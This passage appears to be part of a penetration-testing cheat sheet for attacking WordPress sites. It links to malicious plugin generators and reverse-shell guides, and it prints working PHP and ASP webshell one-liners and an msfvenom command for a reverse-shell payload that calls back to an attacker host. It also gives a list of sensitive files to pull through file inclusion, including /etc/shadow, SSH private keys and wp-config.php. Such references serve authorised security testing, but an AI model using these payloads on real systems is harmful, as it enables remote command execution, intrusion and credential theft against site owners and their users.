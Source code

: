 ##### 3.3.3.1 Malicious WordPress Plugin Generators

- [With Meterpreter](https://github.com/wetw0rk/malicious-wordpress-plugin)
- [Without Meterpreter](https://github.com/Jsmoreira02/Pwn_Wordpress)

##### 3.3.3.2 Reverse Shell Options

- [Two Reverse
                    Shell Options](https://rioasmara.com/2019/02/25/penetration-test-wordpress-reverse-shell/)
- [WordPress
                    Backdoor
                    Exploit](https://pentaroot.com/exploit-wordpress-backdoor-theme-pages/)

##### 3.3.3.3 PHP Webshell

    <?php system($_GET[&#39;cmd&#39;]); ?>
    

##### 3.3.3.4 ASP Webshell

    <% eval request(&#39;cmd&#39;) %>
    

##### 3.3.3.5 Non-Meterpreter Payload for Netcat

    msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT>
    

#### 3.3.4 Files and Paths to Target (LFI & RFI)

##### 3.3.4.1 Common Linux Files

    # Popular Files
    /etc/passwd                       # Contains user accounts
    /etc/shadow                       # Stores hashed user passwords
    /var/www/html/wp-config.php       # WordPress configuration
    /proc/self/environ                # Environment variables (can contain session tokens)
    
    # Additional Options
    /etc/passwd
    /etc/shadow
    /etc/hosts
    /home/<user>/.ssh/id_rsa
    /home/<user>/.bash_history
    /etc/apache2/sites-available/000-default.conf
    /etc/httpd/logs/acces_log 
    /etc/httpd/logs/error_log 
    /var/www/logs/access_log 
    /var/www/logs/access.log 
    /usr/local/apache/logs/access_ log 
    /usr/local/apache/logs/access. log 
    /var/log/apache/access_log 
    /var/log/apache2/access_log 
    /var/log/apache/access.log 
    /var/log/apache2/access.log
    /var/log/access_log
    /proc/self/environ
    ../wp-content/wp-config.php
    /www/apache/conf/httpd.conf
    